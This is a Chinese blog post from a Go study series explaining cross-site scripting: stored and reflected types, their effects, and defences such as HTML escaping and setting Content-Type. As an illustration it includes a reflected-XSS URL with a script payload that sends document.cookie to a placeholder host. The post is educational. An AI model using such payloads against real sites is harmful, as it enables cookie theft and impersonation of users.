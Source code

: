 ```yaml
---
date: '2025-08-04 11:38:46'
title: 'Go基础学习记录之XSS攻击'
image: 'https://res.cloudinary.com/dy5dvcuc1/image/upload/v1595385476/xiaorongmao/golang.jpg'
categories:
    - "技术"

tags:
    - "Golang"

---
```


## XSS攻击

随着互联网技术的发展，Web应用程序通常包含动态内容以改善用户体验。  
动态内容是根据用户请求和操作做出反应和更改的内容。  
动态站点通常容易受到跨站点脚本攻击（通常由安全专家以其缩写形式XSS引用），静态网站完全不受其影响。

## 什么是XSS？

如上所述，术语XSS是Cross-Site Scripting的首字母缩写，它是Web上常见的一种攻击。  
为了不将它与另一个常见的网络首字母缩略词CSS（Cascading Style Sheets）混淆，我们在跨站点脚本中使用X而不是C来进行交叉。  
XSS是一种常见的Web安全漏洞，允许攻击者将恶意代码注入网页。  
与通常仅涉及攻击者和受害者的大多数类型的攻击不同，XSS涉及三方：攻击者，客户端和Web应用程序。  
XSS攻击的目的是窃取Web应用程序存储在客户端上的cookie，以便读取敏感的客户端信息。  
一旦攻击者获得此信息，他们就可以冒充用户并在不知情或未经批准的情况下与网站进行互动。

XSS攻击通常可以分为两类：一类是存储的XSS攻击。  
当允许用户将数据输入到公共页面上时，会出现这种形式的攻击，该公共页面在被服务器保存之后将被返回（未转义）给恰好正在浏览它的其他用户。  
通常受影响的页面类型的一些示例包括评论，评论，博客帖子和留言板。  
这个过程通常是这样的：攻击者输入一些html后跟一个隐藏的<script>标签，其中包含一些恶意代码，然后点击保存。  
Web应用程序将其保存到数据库中。  
当另一个用户请求此页面时，应用程序从数据库中查询此受污染的数据并将该页面提供给用户。  
攻击者的脚本然后在客户端的计算机上执行任意代码。

另一种类型是反射的XSS攻击。  
主要思想是将恶意脚本直接嵌入到URL地址的查询参数中。  
服务器立即将此数据解析为结果页并将其返回（发出请求的客户端）未经过无限制，可能会无意中导致客户端的计算机执行此代码。  
攻击者可以使用编码的有效负载向用户发送合法的链接到受信任的网站;  
单击此链接可能导致用户的浏览器执行恶意脚本。

XSS的主要手段和结尾如下：

1. 盗窃cookie，访问敏感信息。  
2. 通过跨域权限使用嵌入式Flash也可以被攻击者用来获取更高的用户权限。这也适用于其他类似的攻击向量，如Java和VBScript。  
3. 使用iframes, frames, XMLHttpRequests等可以允许攻击者承担用户的身份以执行管理操作，例如微博，添加朋友，发送私人消息和其他例行操作。不久前，新浪微博平台遭遇了这种类型的XSS漏洞。  
4. 当许多用户访问受XSS攻击影响的页面时，对某些较小站点的影响可能与DDoS攻击的影响相当。

## XSS原则

在没有首先检查和过滤它的情况下向用户返回所请求数据的Web应用程序可以允许恶意用户将脚本（通常嵌入在<script>标签内的HTML内）注入其他用户的浏览器。  
当这个恶意代码在用户的浏览器上呈现而没有首先被转义时，用户的浏览器将解释这个代码：这是XSS攻击的定义，这种类型的错误是导致XSS漏洞的主要原因。

让我们来看看反射XSS攻击的过程。  
假设有一个网站根据URL查询参数输出用户名;  
访问以下URL http://127.0.0.1/?name=durban将导致服务器输出以下内容：

```bash
hello xxx
```

假设我们传递以下参数，访问相同的URL：http://127.0.0.1/?name=<script>alert('durban，xss')</script>。  
如果这导致浏览器生成警报弹出框，我们可以确认该站点容易受到XSS攻击。  
那么恶意用户如何使用相同类型的攻击窃取cookie?

和以前一样，我们有一个URL：

```bash
http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;
```

通过单击此URL，您将当前cookie发送到指定的站点：www.xxx.com。  
您可能想知道，为什么有人会首先点击这样一个看起来很奇怪的URL?  
虽然这种URL确实会让大多数人持怀疑态度，但如果攻击者使用众多流行的URL缩短服务之一来掩盖它，你还能看到它吗？  
大多数攻击者会以这种或那种方式混淆URL，并且在点击它之后你只知道链接的合法性。  
但是到目前为止，cookie数据已经被发送到第三方网站，从而危及您的敏感信息。  
您可以使用Websleuth等工具来审核Web应用程序的安全性，以了解这些类型的漏洞。

有关XSS攻击的更详细分析，请查看文章："[新浪微博XSS事件分析] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"

## 如何防止XSS

答案很简单：永远不要信任用户输入，并且总是过滤掉您可能收到的任何输入数据中的所有特殊字符。  
这将消除大多数XSS攻击。

使用以下技术来抵御XSS攻击：

1. 过滤特殊字符

避免XSS的一种方法是过滤用户提供的内容。  
Go语言在其text/template包中提供了一些HTML过滤功能，例如HTMLEscapeString和JSEscapeString等。

2. 在HTTP标头中指定内容类型

```go
w.Header().Set("Content-Type","text/javascript")
```

这允许客户端浏览器将响应解析为javascript代码（应用必要的过滤器），而不是以未指定和潜在危险的方式呈现内容。

## 小结

在开发Web应用程序时，引入XSS漏洞是一个非常现实的危险。  
重要的是要记住过滤所有数据，特别是在将数据输出到客户端之前;  
现在，这是一种预防XSS的成熟手段。

